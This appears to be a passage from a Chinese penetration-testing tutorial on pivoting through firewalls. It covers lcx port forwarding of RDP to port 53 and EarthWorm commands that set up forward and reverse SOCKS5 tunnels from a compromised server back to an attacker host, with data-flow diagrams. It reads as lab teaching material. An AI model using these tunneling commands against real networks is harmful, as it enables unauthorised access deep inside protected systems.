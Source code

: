 server执行

```powershell
lcx -t 53 172.16.2.8 3389
```

直接连接server:53

数据流向

server 3389 <-> 53 <->attacker

## Earthworm

EW 是一套便携式的网络穿透工具，具有 SOCKS v5 服务架设和端口转发两大核心功能。该工具能够以 “正向”、“反向”、“多级级联” 等方式打通一条网络隧道，直达网络深处，用蚯蚓独有的手段突破网络限制，给防火墙松土。工具包中提供了多种可执行文件，以适用不同的操作系统，Linux、Windows、MacOS、Arm-Linux 均被包括其内, 强烈推荐使用。官方地址：http://rootkiter.com/EarthWorm

该工具共有 6 种命令格式：ssocksd、rcsocks、rssocks、lcx_slave、lcx_listen、lcx_tran

### 正向socks5

attacker:

```powershell
ew -s ssocksd -l 1080
```

client:

```powershell
C:\Users\Y4er>curl http://172.16.2.8 -x socks5://172.16.1.144:1080
I am 172.16.2.8
```

数据流向

client <-> attacker 1080 <-> server

### 反向socks5

attacker执行，监听8888端口转发到1080端口

```powershell
ew -s rcsocks -l 1080 -e 8888
```

在server中启动socks5服务，并且反弹到attacker的8888端口

```powershell
ew -s rssocks -d 172.16.2.18 -e 8888
```

在client中就可以用这个代理了

```powershell
curl http://172.16.2.8 -x socks5://172.16.1.144:1080
```

client <-> attacker 1080 <-> attacker 8888 <-> server

